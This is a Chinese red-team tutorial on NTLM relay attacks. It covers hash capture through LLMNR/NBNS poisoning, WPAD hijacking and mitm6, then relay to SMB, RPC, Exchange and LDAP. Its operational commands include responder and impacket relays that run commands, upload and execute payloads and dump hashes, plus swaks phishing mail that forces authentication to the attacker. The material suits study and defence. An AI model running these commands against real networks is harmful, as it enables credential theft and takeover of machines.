# NTLM中继

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

NTLM hash 分为 NTLMv1 NTLMv2 NTLMv2 session 三种，NTLMv2 的强度比 NTLMv1 强了不少 ，我们在实战中，如果获得的是 NTLMv1 的话直接对其进行爆破就行了，而现实情况中我们遇到的是 NTLMv2，NTLMv2 的密码强度高了不少，因此如果你没有一个超级强大的字典，你很难得到明文密码。那么，如果爆破行不通的话我们不妨试一下 NTLM Relay 攻击。

NTLM Relay 中，我们就是要将截获的 Net-NTLM Hash 重放来进行攻击，从而实现对其他机器的控制

对于工作组的机器来说，两台机器的密码需要一致才能成功，对于域用户来说，被欺骗用户（发起请求的用户）需要域管理员组里边的用户才可以，NTLM 中继成功后的权限为被欺骗用户的权限。

---

**相关文章**
- [Windows内网协议学习NTLM篇之NTLM基础介绍](https://www.anquanke.com/post/id/193149)
- [Windows内网协议学习NTLM篇之发起NTLM请求](https://www.anquanke.com/post/id/193493)
- [Windows内网协议学习NTLM篇之Net-NTLM利用](https://www.anquanke.com/post/id/194069)
- [Windows内网协议学习NTLM篇之漏洞概述](https://www.anquanke.com/post/id/194514)
- [内网渗透测试：NTLM Relay攻击分析](https://blog.csdn.net/whatday/article/details/107698383)
- [NTLM利用探索](http://evilash.me/2020/12/03/NTLMExplore.html)
- [What is old is new again: The Relay Attack](https://www.secureauth.com/blog/what-is-old-is-new-again-the-relay-attack/)
- [NTLM relay of ADWS (WCF) connections with Impacket](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
- [红队与理论：Credential Relay 与 EPA](https://mp.weixin.qq.com/s/hACLQ4UgdFXDdlB4CKKhXg)
- [360 A-TEAM 带你走进 NTLM-Relay](https://mp.weixin.qq.com/s/aemG5XwVdyzNbOBXztDUbA)
- [NTLM Relay](https://en.hackndo.com/ntlm-relay/)
- [NTLM认证相关攻击技巧（较全）](https://xz.aliyun.com/t/8562)

---

## 获得 hash(发起 NTLM 请求)

由于 SMB、HTTP、LDAP、MSSQL 等协议都可以携带 NTLM 认证的三类消息，所以只要是使用 SMB、HTTP、LDAP、MSSQL 等协议来进行 NTLM 认证的程序，都可以尝试向攻击者发送 Net-NTLMhash 从而让攻击者截获用户的 Net-NTLMhash，也就是说我们可以通过这些协议来进行攻击。

### LLMNR 和 NetBIOS 欺骗

Windows系统名称解析顺序为：
1. 本地 hosts 文件（%windir%\System32\drivers\etc\hosts）
2. DNS 缓存 / DNS 服务器
3. 链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NBT-NS）

也就是说，如果在缓存中没有找到名称，DNS 名称服务器又请求失败时，Windows 系统就会通过链路本地多播名称解析（LLMNR）和 Net-BIOS 名称服务（NBT-NS）在本地进行名称解析。

这时，客户端就会将未经认证的 UDP 广播到网络中，询问它是否为本地系统的名称，由于该过程未被认证，并且广播到整个网络，从而允许网络上的任何机器响应并声称是目标机器。当用户输入不存在、包含错误或者 DNS 中没有的主机名时，通过工具 (responder) 监听 LLMNR 和 NetBIOS 广播，攻击者可以伪装成受害者要访问的目标机器，并从而让受害者交出相应的登录凭证。核心过程与 arp 欺骗类似，我们可以让攻击者作中间人，截获到客户端的 Net-NTLMHash。

也就是说 LLMNR 并不需要一个服务器，而是采用广播包的形式，去询问 DNS，如同 ARP 投毒一样的安全问题。

而 NetBIOS 协议进行名称解析是发送的 UDP 广播包。因此在没有配置 WINS 服务器的情况底下，LLMNR 协议存在的安全问题，在 NBNS 协议里面同时存在。

- [Responder欺骗](./Responder欺骗.md)

### WPAD 劫持

wpad 全称是 Web Proxy Auto-Discovery Protocol ，通过让浏览器自动发现代理服务器，定位代理配置文件 PAC(在下文也叫做 PAC 文件或者 wpad.dat)，下载编译并运行，最终自动使用代理访问网络。



默认自动检测设置是开启的。

WPAD 网络代理自动发现协议是一种客户端使用 DCHP、DNS、LLMNR、NBNS 协议来定位一个代理配置文件 (PAC)URL 的方法。WPAD 通过让浏览器自动发现代理服务器，查找存放 PAC 文件的主机来定位代理配置文件，下载编译并运行，最终自动使用代理访问网络。

用户在访问网页时，首先会查询 PAC 文件的位置，然后获取 PAC 文件，将 PAC 文件作为代理配置文件。

查询 PAC 文件的顺序如下：
1. 通过 DHCP 服务器
2. 查询 WPAD 主机的 IP
    - Hosts
    - DNS (cache / server)
    - LLMNR
    - NBNS

#### 配合 LLMNR/NBNS 投毒

一个典型的劫持方式是利用 LLMNR/NBNS 欺骗来让受害者从攻击者获取 PAC 文件，PAC 文件指定攻击者就是代理服务器，然后攻击者就可以劫持受害者的 HTTP 流量，在其中插入任意 HTML 标签从而获得用户的 Net-NTLMHash。

当你的浏览器设置为 “自动检测代理设置” 的情况下，它就会下载攻击者事先准备好的 wpad.dat 文件，这样一来，客户端的流量就会经过攻击者的机器。

受害者通过 llmnr 询问 wpad 主机在哪里，Responder 通过 llmnr 投毒将 wpad 的 ip 指向 Responder 所在的服务器

Responder 可以创建一个假 WPAD 服务器，并响应客户端的 WPAD 名称解析。客户机随后请求该 WPAD服务器的 wpad.dat 文件。

受害者访问 WPAD/wpad.dat，Responder 就能获取到用户的 net-ntlm hash(这个 Responder 默认不开，因为害怕会有登录提醒，不利于后面的中间人攻击，可以加上 - F 开启)

- [Responder欺骗](./Responder欺骗.md#wpad)

微软在 2016 年发布了 MS16-077 安全公告，添加了两个重要的保护措施，以缓解这类攻击行为
1. 系统再也无法通过广播协议来解析 WPAD 文件的位置，只能通过使用 DHCP 或 DNS 协议完成该任务。
2. 更改了 PAC 文件下载的默认行为，以便当 WinHTTP 请求 PAC 文件时，不会自动发送客户端的域凭据来响应 NTLM 或协商身份验证质询。

#### 配合 DHCPv6

MS16-077 以后更改了 PAC 文件下载的默认行为，以便当 WinHTTP 请求 PAC 文件时，不会自动发送客户端的域凭据来响应 NTLM 或协商身份验证质询。

在访问 pac 文件的时候，我们没办法获取到用户的 net-ntlm hash。但默认 responder 不开启，要手动加 - F 选项才能开启。我们可以给用户返回一个正常的 wpad。将代理指向我们自己，然后我们作为中间人。这个时候可以做的事就很多了。比如插入 xss payload 获取 net-ntlm hash，中间人获取 post，cookie 等参数，通过 basic 认证进行钓鱼，诱导下载 exe 等等。可以配合 LLMNR/NBNS 投毒。

给用户返回一个正常的 wpad。将代理指向我们自己，当受害主机连接到我们的 “代理” 服务器时，我们可以通过 HTTP CONNECT 动作、或者 GET 请求所对应的完整 URI 路径来识别这个过程，然后回复 HTTP 407 错误（需要代理身份验证），这与 401 不同，IE/Edge 以及 Chrome 浏览器（使用的是 IE 设置）会自动与代理服务器进行身份认证，即使在最新版本的 Windows 系统上也是如此。在 Firefox 中，用户可以配置这个选项，该选项默认处于启用状态。

在 MS16-077 之后，通过 DHCP 和 DNS 协议还可以获取到 pac 文件。

DHCP 和 DNS 都有指定的服务器，不是通过广播包，而且 dhcp 服务器和 dns 服务器我们是不可控的，没法进行投毒。而从 Windows Vista 以来，所有的 Windows 系统（包括服务器版系统）都会启用 IPv6 网络，并且其优先级要高于 IPv4 网络。

DHCPv6 协议中，客户端通过向组播地址发送 Solicit 报文来定位 DHCPv6 服务器，组播地址 `[ff02::1:2]` 包括整个地址链路范围内的所有 DHCPv6 服务器和中继代理。DHCPv6 四步交互过程，客户端向 `[ff02::1:2]` 组播地址发送一个 Solicit 请求报文，DHCP 服务器或中继代理回应 Advertise 消息告知客户端。客户端选择优先级最高的服务器并发送 Request 信息请求分配地址或其他配置信息，最后服务器回复包含确认地址，委托前缀和配置（如可用的 DNS 或 NTP 服务器）的 Relay 消息。通俗点来说就是，在可以使用 ipv6 的情况(Windows Vista 以后默认开启), 攻击者能接收到其他机器的 dhcpv6 组播包的情况下，攻击者最后可以让受害者的 DNS 设置为攻击者的 IPv6 地址。

可以利用 Fox-IT 公开的工具进行攻击

**相关文章**
- [mitm6 - compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
    - [mitm6：通过IPv6攻破IPv4网络](https://www.anquanke.com/post/id/94689)

**mitm6**
- https://github.com/dirkjanm/mitm6
    ```bash
    pip install mitm6

    # 或
    git clone https://github.com/dirkjanm/mitm6.git
    cd mitm6
    pip install -r requirements.txt
    python setup.py install
    ```

```
mitm6 -d test.local
```



```
impacket-ntlmrelayx -6 -wh test.local -t smb://192.168.141.129 -l ~/tmp/ -socks -debug
```







---

## 利用

### signing

签名的原理参考笔记 [认证](../../../../Integrated/Windows/笔记/认证.md)

用 responder 工具包里面的 RunFinger.py 脚本扫描域内机器的签名的开放情况
```
cd /usr/share/responder/tools
python RunFinger.py -i 192.168.141.0/24
```



可以看到除了域控 130，域内主机的 SMB 签名都已禁用（false）了

也可以用 nmap
```
nmap --script smb-security-mode,smb-os-discovery.nse -p445 192.168.141.0/24 --open
```

---

### SMB中继

SMB 中继是最直接最有效的方法。可以直接控制该服务器 (包括但不限于在远程服务器上执行命令、上传 exe 到远程主机上执行、dump 服务器的用户 hash 等等)。

中继的前提是目标 SMB 签名需要关闭，在 SMB 连接中，需要使用安全机制来保护服务器和客户端之间传输数据的完整性，而这种安全机制就是 SMB 签名和加密，如果关闭 SMB 签名，会允许攻击者拦截认证过程，并且将获得 hash 在其他机器上进行重放，从而获得权限。

**工作组**

在工作组环境里面，工作组中的机器之间相互没有信任关系，每台机器的账号密码 Hash 只是保存在自己的 SAM 文件中，这个时候 Relay 到别的机器，除非两台机器的账号密码一样，不然没有别的意义了.但如果账号密码一样，不如直接 pth。

这个时候的攻击手段就是将机器 reflect 回机子本身。因此微软在 ms08-068 中对 smb reflect 到 smb 做了限制，防止了同一主机从 SMB 协议向 SMB 协议的 Net-NTLMhash relay。这个补丁在 CVE-2019-1384(Ghost Potato) 被绕过。

自从 MS08-068 漏洞修复之后无法再将 Net-NTLM 哈希值传回到发起请求的机器上，除非进行跨协议转发，但是该哈希值仍然可以通过中继转发给另外一台机器。利用 Responder 结合其他中继工具可以进行自动化的拦截并且对哈希值进行中继转发。唯一的一个不足之处就是，在这之前需要在进行转发操作的机器上禁用 SMB 签名。但是除了个别的例外，所有的 Windows 操作系统都默认关闭了 SMB 签名。

**域**

域环境底下域用户的账号密码 Hash 保存在域控的 ntds.dit 里面。如下没有限制域用户登录到某台机子，那就可以将该域用户 Relay 到别人的机子，或者是拿到域控的请求，将域控 Relay 到普通的机子，比如域管运维所在的机子。

- 域普通用户 != 中继
- 域管 == 中继
- 域普通用户+域管理员组 == 中继

---

#### responder MultiRelay

利用 MultiRelay.py 攻击，获得目标主机的 shell：
```
python3 MultiRelay.py -t <被攻击ip> -u ALL
```



现在 SMB 已经由 MultiRelay.py 脚本来进行中继，我们需要修改一下 responder 的配置文件Responder.conf，不让其对 hash 进行抓取。将 SMB 和 HTTP 的 On 改为 Off：
```
vim /usr/share/responder/Responder.conf

SMB=Off
HTTP=Off
```

重启 Responder.py，准备毒化（这里 responder 的作用就是当访问一个不存在的共享路径，将称解析降到 LLMNR/NBNS 时，来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应）
```
responder -I eth0
```



在 DC（192.168.141.130）上随便传递一个 SMB 流量
```
net use \\whoami
```



可以看到已经拿到了目标机器的 shell





---

#### Impacket smbrelayx

```
impacket-smbrelayx -h <被攻击ip> -c whoami
```



让任意主机访问这个攻击者精心构造好的 SMB 服务器：
```
net use \\<kali IP>
```



此时，攻击者的 smbrelayx 脚本上就会发现命令成功执行了



```
impacket-smbrelayx -h <被攻击ip> -e shell.exe
```
用 -e 选项会在目标主机上传并运行我们的 payload

---

#### Metasploit smb_relay(08-068)

```
use exploit/windows/smb/smb_relay
run
```

在目标的 cmd 中执行 `net use \\<kali ip>\c$` 来访问攻击者搭建的恶意 smb 服务

---

#### Impcaket ntlmrelayx

ntlmrelayx 脚本可以直接用现有的 hash 去尝试重放指定的机器
```
impacket-ntlmrelayx -t smb://<被攻击ip> -c whoami -smb2support
```



诱导域管理员或普通域用户访问攻击机搭建的伪造 HTTP 或 SMB 服务，并输入用户名密码：



攻击者的 ntlmrelayx 上面即可显示成功在目标上执行命令


**socks**
```
echo "192.168.141.130" >> targets.txt
echo "192.168.141.131" >> targets.txt
echo "192.168.141.132" >> targets.txt
echo "192.168.141.133" >> targets.txt

impacket-ntlmrelayx -tf targets.txt -socks -smb2support
```



**ADWS(built upon NetTcpBinding WCF)**

kali 上启用(192.168.141.129)
```
impacket-ntlmrelayx --no-smb-server --no-http-server -t rpc://192.168.141.132 -c "echo a > c:\test"
```

域控上执行
```
Get-Command
get-aduser -filter * -server 192.168.141.129
```



目标域成员机器执行命令





---

### Exchange中继

Exchange 的认证也支持 NTLM SSP。我们可以 relay 的 Exchange，从而收发邮件，代理等等。

#### outlook abuse

在使用 outlook 的情况下还可以通过 homepage 或者下发规则达到命令执行的效果。

在 outlook 邮件中插入 HTML,触发 UNC

在邮件中插入如下标签：
```


```

在用户通过 Outlook 打开邮件时：

1. UNC 默认会通过 smb 协议发起 NTLM 认证，但是外网钓鱼的话，目标单位的 smb 流量可能无法出网。
2. HTTP 默认不会发起 NTLM 认证，即使服务端对其进行 NTLM 挑战，除非服务端 url 位于服务器的信任网站或内联网列表。Windows 会认为 http://Netbios 形式的 url 处于内联网，域内用户默认有增加 DNS 记录的权限，因此攻击者需要先获取域用户权限并创建 DNS 记录来将恶意服务器"放入"内联网列表。显然，这种方法无法用于外网钓鱼。

```bash
# 发送带 UNC 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body 'this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"

# 发送带 HTTP 路径的邮件
swaks --server 192.168.60.116 --ehlo island.com --to zhangsan@island.com --from test@island.com --header "Subject:relay_swaks_test" --body 'this is a msg' --h-X-Mailer: 'Foxmail 7.2.20.273[cn]' --add-header "Content-Type: text/html"
# Powermad Invoke-DNSUpdate.ps1
# 创建 DNS 记录
Invoke-DNSUpdate -DNSType A -DNSName relayubuntu -DNSData 192.168.60.172
```

这种 Relay，可以在外网发起 relay，而不需要在内网。

- [Arno0x/NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS)
- [quickbreach/ExchangeRelayX](https://github.com/quickbreach/ExchangeRelayX)

**smb/http relay to smb**

中继至 smb 时，如果：

1. 中继的账户是普通域账户，则无法完成中继。受 Remote UAC 限制，除了以下账户外，其他账户无法网络登录 smb
2. 中继的账户是域管账户或本地管理员账户，可以完成中继
```bash
# 不加参数，默认 dump 目标 hash
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -socks
python3 ntlmrelayx.py -t smb://192.168.60.112 -smb2support -c "whoami"
```

**http relay to ldap**

中继至 ldap 时，如果：

1.中继的账户是普通域账户，会 dump 域内 ldap 信息
2.中继的账户是高权限域账户，会自动尝试 ACL 提权

